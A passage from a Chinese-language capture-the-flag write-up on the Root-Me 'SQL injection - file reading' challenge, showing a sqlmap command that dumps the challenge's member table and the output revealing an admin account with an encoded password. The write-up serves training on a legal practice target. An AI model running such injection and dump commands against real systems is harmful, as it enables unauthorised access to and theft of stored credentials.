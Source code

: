 ![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B49%5D%20%5B40P%5D%20SQL%20injection%20-%20file%20reading/imgs/06.png)

------------


### 获取表数据

最后查询表数据，数据只有一行，记录了 admin 的账密，但是密码被加密处理过了：

```shell
sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch31/?action=members&id=1" -D c_webserveur_31 -T member --dump

---
[22:25:13] [INFO] the back-end DBMS is MySQL
web application technology: Nginx
back-end DBMS: MySQL >= 5.0
[22:25:13] [INFO] fetching columns for table 'member' in database 'c_webserveur_31'
[22:25:13] [INFO] used SQL query returns 4 entries
[22:25:13] [INFO] resumed: 'member_id','int(1)'
[22:25:13] [INFO] resumed: 'member_login','varchar(20)'
[22:25:13] [INFO] resumed: 'member_password','varchar(1000)'
[22:25:13] [INFO] resumed: 'member_email','varchar(50)'
[22:25:13] [INFO] fetching entries for table 'member' in database 'c_webserveur_31'
[22:25:13] [INFO] used SQL query returns 1 entry
Database: c_webserveur_31
Table: member
[1 entry]
+-----------+--------------+-------------------------------+----------------------------------------------------------+
| member_id | member_login | member_email                  | member_password                                          |
+-----------+--------------+-------------------------------+----------------------------------------------------------+
| 1         | admin        | admin@super-secure-webapp.org | VA5QA1cCVQgPXwEAXwZVVVsHBgtfUVBaV1QEAwIFVAJWAwBRC1tRVA== |
+-----------+--------------+-------------------------------+----------------------------------------------------------+

[22:25:13] [INFO] table 'c_webserveur_31.member' dumped to CSV file 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org\dump\c_webserveur_31\member.csv'
[22:25:13] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org'

[*] ending @ 22:25:13 /2019-03-17/
```

------------

## 读取 index 页面的源码文件

### 推测文件绝对路径
